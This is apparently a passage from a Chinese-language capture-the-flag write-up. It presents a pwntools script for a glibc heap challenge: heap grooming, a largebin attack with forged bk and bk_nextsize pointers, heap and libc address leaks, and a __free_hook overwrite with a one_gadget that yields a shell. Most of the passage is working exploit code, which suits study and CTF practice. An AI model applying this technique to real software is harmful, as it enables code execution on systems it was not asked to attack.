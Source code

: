 ```python
alloc(0x18)     # 1
alloc(0x4d0)    # 7
dele(1)
dele(2)
alloc(0x38)     # 1
alloc(0x500)    # 2

update(4,'a'*0x4f0+p64(0x500))
dele(4)
update(3,'a'*12)
alloc(0x18)     # 4
alloc(0x4d0)    # 8
dele(4)
dele(5)
alloc(0x48)     # 4
#alloc(0x4f0)   

dele(2)
alloc(0x500)    # 2
dele(2)


```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>原理不多解释了，how2pwn里有demo，大佬的博客也解释的十分清楚明白。然后我们伪造unsortedbin的bk和largebin的bk和bk_nextsize，利用largebin的unlink（bk->bk_nextsize->fd_nextsize=victim）把自身堆块的地址写到任意地址去，我们可以把这个地址写到mmap上去，这样分配堆块时只要堆块的地址合适，根据堆地址的最高字节0x55或**0x56**我们就可以绕过size检查，成功把堆块分配到堆表上，然后随意控制读写。</font></br>

```python
addr=0x13370000+0x800-0x20
update(7,p64(0)*3+p64(0x511)+p64(0)+p64(addr))
update(8,p64(0)*5+p64(0x501)+p64(0)+p64(addr+8)+p64(0)+p64(addr-0x18-5))

# 因为PIE，一旦堆地址0x56开头，就可以绕过size检查
# 这次分配就能够成功，然后就可以为所欲为
alloc(0x48)     # 2

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>剩下的就随便改了，不多讲：</font></br>

```python
update(2,p64(0)*5+p64(0x13377331)+p64(addr+0x20+0x30))
update(0,p64(addr+3)+p64(8))
view(1)

rv('Chunk[1]: ')
chunk_base=u64(p.recv(6)+2*'\x00')-0x60
log.info('chunk base is:'+hex(chunk_base))

update(0,p64(chunk_base+0x70)+p64(8))
view(1)
rv('Chunk[1]: ')
libc_base=u64(p.recv(6)+2*'\x00')-0x3c4b78
log.info('libc base is:'+hex(libc_base))

gdb.attach(p)
update(0,p64(libc_base+free_hook)+p64(8))
update(1,p64(libc_base+one_gadget)+p64(8))

dele(4)

p.interactive()


```